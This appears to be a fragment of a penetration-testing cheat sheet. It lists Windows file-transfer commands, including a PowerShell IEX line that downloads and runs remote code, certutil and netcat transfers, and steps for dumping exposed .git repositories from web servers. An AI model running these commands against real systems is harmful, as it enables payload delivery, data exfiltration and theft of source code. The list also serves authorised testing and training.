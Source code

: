 ### Windows

```
# FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
```

------

## GIT

### Download .git 

```
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
```

### Extract .git content

```
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

------

## HASHES
